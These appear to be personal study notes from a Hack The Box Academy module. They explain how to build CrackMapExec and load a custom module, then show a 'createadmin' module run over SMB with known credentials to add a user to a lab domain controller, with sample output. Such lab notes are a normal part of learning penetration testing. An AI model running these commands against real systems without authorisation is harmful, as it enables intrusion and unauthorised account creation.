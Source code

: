 # CMEmodule

**notes from HTB https://academy.hackthebox.com/module/84/section/817**

It is crucial to compile the CME project using Poetry (https://python-poetry.org/), which is recommended when building projects.

This this section for how to start using Poetry to run CrackMapExec - https://academy.hackthebox.com/module/84/section/797

Once CME has been installed with Poetry, copy the module's pythone file into the ./CrackMapExec/cme/modules folder.

The module can then be ran with or without options.

```shell
crackmapexec smb $IP -u $USER -p $PASS -M createadmin #Or whatever the module is called
```

For the example `createadmin.py`, it can be run by passing values to the user and password paramters

```shell
crackmapexec smb $IP -u $USER -p $PASS -M createadmin -o USER=htb PASS=Newpassword!
SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\julio:Password1 (Pwn3d!)
CREATEAD... 10.129.203.121  445    DC01             [*] Creating user with the following values: USER htb and PASS Newpassword!
CREATEAD... 10.129.203.121  445    DC01             [*] Executing command
CREATEAD... 10.129.203.121  445    DC01             The command completed successfully.

The command completed successfully.
```